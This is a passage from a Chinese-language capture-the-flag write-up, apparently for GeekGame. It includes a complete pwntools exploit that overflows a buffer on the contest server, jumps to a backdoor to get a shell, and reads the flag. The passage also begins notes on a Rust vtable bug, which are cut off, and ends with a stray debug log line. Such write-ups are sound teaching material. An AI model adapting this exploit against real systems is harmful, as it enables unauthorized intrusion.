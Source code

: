 `read` 在 `*(void **)(v6 + 8) = v6 + 24` 处读取了长度 `*(unsigned int *)(v6 + 16) = v4 + 24`，但前面的空间检查只预留了 `v6 + v4 + 24` 个字节，所以我们至多可以溢出 24 字节。`pwn` 一下即可。

```python
from pwn import *
sh = remote('prob12.geekgame.pku.edu.cn', 10012)
success_addr = 0x000000000040122C
print(p32(success_addr))
sleep(1)
sh.sendline(b'<my-token>')
sleep(1)
sh.sendline(b'1')
sh.sendline(b'1')
sh.sendline(b'460')
sh.sendline(b'qwer')
sleep(1)
sh.sendline(b'1')
sh.sendline(b'2')
sh.sendline(b'4')
sh.sendline(b'aaaa' + b'bbbbbbbb' + p64(success_addr+8))
sleep(1)
sh.sendline(b'4')
sleep(1)

sh.interactive()
```

这里把地址+8是有原因的。如果不+8直接跑，程序在到达 backdoor 后会段错误。通过 `gdb` 调试发现是 `movaps` 的 `rps` 没对齐，差 8。由 [https://security.stackexchange.com/questions/276471/simple-buffer-overflow-function-call-problem](https://security.stackexchange.com/questions/276471/simple-buffer-overflow-function-call-problem) 可知要将地址+8。

> The reason is that the SYS V ABI for x86-64 requires the stack to be aligned (on 16B) at the call site (i.e. when a call is executed).

这样就拿到 shell，`cat /flag`即可得到 Flag

```
flag{c0Ngr4ts_0n_F1NDInG_th3_BacKd00r}
```

### FLAG2&FLAG3(failed)
只会栈溢出，堆上的攻击没玩过，望而却步了(



## 15. [Binary] 完美的代码

### FLAG1
看提示给出的[原理](https://github.com/rust-lang/rust/issues/131813)可知跟虚表和向上转换有关。

从 [https://github.com/rust-lang/rust/issues/114942](https://github.com/rust-lang/rust/issues/114942) 的 [Rust Playground](https://play.rust-lang.org/?version=nightly&mode=debug&edition=2021&gist=2fe6fa013e7532c534e6b113fe2a86bc) 获知查看虚表的手段：
```rust
#![feature(rustc_attrs)]
#![allow(internal_features)]

#[rustc_dump_vtable]
trait Test {}
```
run 一下看报错即可。修改一下题目源代码得知虚表


[2024:09:30:17:14:32]: Debug: --begin keyboard packet--